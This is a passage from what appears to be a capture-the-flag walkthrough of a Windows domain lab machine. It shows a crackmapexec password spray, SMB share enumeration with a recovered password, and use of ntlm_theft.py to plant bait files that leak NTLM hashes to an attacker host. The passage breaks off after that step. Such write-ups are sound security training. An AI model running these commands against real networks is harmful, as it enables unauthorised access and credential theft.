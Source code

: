 
Now, I will do `Password Spray` attack means, I will try one password for all users which specifid in `users` file.

```bash
crackmapexec smb 10.10.11.187 -u users -p 'S@Ss!K@*t13' --continue-on-success
```

![Alt text](img/image-15.png)


Hola, `S.Moon` use the same password maybe forgot to change default password of Domain.

S.Moon : S@Ss!K@*t13


Let's enumerate SMB shares via this credentials by using `crackmapexec` tool.

```bash
crackmapexec smb 10.10.11.187 -u S.Moon -p 'S@Ss!K@*t13' --shares
```

![Alt text](img/image-16.png)


This user have `Write` permission into share called `Shared`, it means that we can do `SMB Relay` attack by putting malicious files into this specific SMB Share.

1.First, we need to download this [script](https://github.com/Greenwolf/ntlm_theft) and run as below.

```bash
python ntlm_theft.py -g all -s 10.10.16.6 -f dr4ks
```
